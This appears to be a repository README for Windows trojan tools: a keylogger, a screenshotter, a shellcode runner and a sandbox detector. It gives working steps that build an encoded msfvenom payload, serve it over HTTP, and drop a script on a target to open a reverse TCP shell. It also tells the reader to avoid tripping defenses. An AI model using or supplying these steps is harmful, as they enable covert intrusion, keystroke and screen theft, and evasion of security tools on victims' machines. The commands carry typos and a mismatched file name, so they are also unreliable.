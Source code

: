 # Windows Trojans for common tasks. Here you'll find a keylogger tool, tools to take screenshots of the user's desktop environment, shell code execution and sendbox detection.

- Keylogger.py

C:\user\admin>python Keylogger.py

- Screenshotter.py

C:\user\admin>python Screenshotter.py

- shell_exec.py

#First create a payload with msfvenom then we base64 encode it. After you did all that you are ready to start a python3 server  

msfvenom -p windows/exec -e x86/shikata_ga_nai -i 1 -f raw cmd=calc.exe > shallcode.raw

base64 -w 0 -i shellcode.raw > shellcode.bin

python3 -m http.server 8000

Drop the shell_exec.py on the Windpws target machine and execut it
If all goes well youl'll be presented with a reverse TCP shell back to your framework 

- sandbox_detec.py

You must do your bes to avoide tiping any defense in place. You can use this script to determine if the target machine is executing within a sandbox environment.

